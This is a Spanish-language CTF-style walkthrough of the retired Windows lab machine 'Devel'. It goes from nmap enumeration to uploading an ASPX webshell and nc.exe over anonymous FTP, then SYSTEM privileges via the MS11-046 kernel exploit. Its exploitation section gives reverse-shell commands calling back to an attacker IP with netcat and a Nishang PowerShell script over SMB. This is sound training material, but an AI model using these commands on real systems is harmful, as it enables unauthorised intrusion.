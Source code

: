 # Devel

![](./images/devel.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|FTP-Web|Kernel|

#
## 2. Enumeracion<a name="id1"></a>

### 2.1 Nmap

* Se lanza un escano **tcp port syns** scan jugando con el **min-rate** para no emitir paquetes más lentos que 5000 paquetes por segundo . Como resultado, se obtiene que los puertos 21 (ftp) y 80 (http) están abiertos.

![](./images/allPorts.png)

* Se lanzan una serie de scripts básicos de enumeración y para detectar la versión del puerto. La salida revela que el puerto 21 (ftp) tiene el acceso "anonymous" habilitado por defecto.

![](./images/targeted.png)

### 2.1 Web

* Haciendo uso de firefox, se analiza el contenido de la página web junto con las herramientas de desarrollador. 

* Destaca un archivo, la imagen **welcome.png**. Mismo nombre que se encuentra en el directorio raiz del ftp.

![](./images/web.png)

* Se prueba a subir vía ftp un archivo index.html. Si el servicio web hace uso del directorio raiz del servicio ftp para cargar los archivos, éste reproducirá el contenido del index.html.

![](./images/inyeccion.png)

* Wappalycer revela que se trata de un framework ASP.NET por lo que se puede subir una **webshell** en aspx para ejecutar código en la **máquina**.

#
## 3. Explotación<a name="id3"></a>

### 3.1 WebShell

* Haciendo uso de las **seclists** se localiza una cmd.aspx para subir al servidor vía ftp y un nc.exe para entablar una reverse shell.

```ftp
ftp> binary # Muy importante, error muy común
200 Type set to I.

ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1400 bytes sent in 0.00 secs (16.2822 MB/s)

ftp> put nc.exe 
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.01 secs (3.8814 MB/s)
ftp>
```

### 3.1 Reverse Shell con nc.exe

* El directorio raiz que utiliza ASP.NET es C:\inetpub\wwwroot\.

![](./images/reverse.png)

```bash
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.20 443
```

```bash 
rlwrap nc -lvnp 443
```

### 3.2 Reverse shell con Nishang

* Compartimos la shell en powershell com **impacket-smbserver** dando soporte a SMB2.

```bash
impacket-smbserver shell . -smb2support
```

* Finalmente se ejecuta el script en powershell. Para ello fue necesario permitir explicitamente la ejecución de scripts en powershell.

```bash
powershell -ExecutionPolicy Bypass \\10.10.14.20\SHELL\Invoke-PowerShellTcp.ps1
```

![](./images/nishang.png)

#
## 4. Priviledge Escalateion<a name="id4"></a>

### 4.1 CVE-2011-1249 - MS11-046

* La forma mas fácil es buscar el copilado  en un repositorio de github. https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2011-1249. Finalmente este copilado se traslada a la máquina y se ejecuta obteniendo privilegios de NT Authority System.

![](./images/elevate.png)





